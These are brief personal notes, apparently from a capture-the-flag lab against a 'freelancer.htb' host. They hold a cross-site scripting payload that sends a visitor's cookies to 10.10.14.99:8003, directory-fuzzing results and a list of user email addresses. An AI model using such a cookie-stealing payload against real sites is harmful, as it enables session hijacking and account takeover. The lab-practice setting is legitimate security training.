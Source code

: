 
# Random Notes

```shell

<script>document.location='http://10.10.14.99:8003?c='+document.cookie</script>

contact                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 466ms]
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 593ms]
blog                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 740ms]
about                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 129ms]
add_comment             [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 708ms]


johnHalond@freelancer.htb  -> admin
tomHazard@freelancer.htb
martin.rose@hotmail.com
crista.Watterson@gmail.com
Camellia@athento.com
lisa.Arkhader@outlook.com
SaraArkhader@gmail.com
maya001@hotmail.com
jroman1992@gmail.com
johnholand@secretareas.com
mark.rose@yahoo.com
itachi.uchiha@gmail.com


```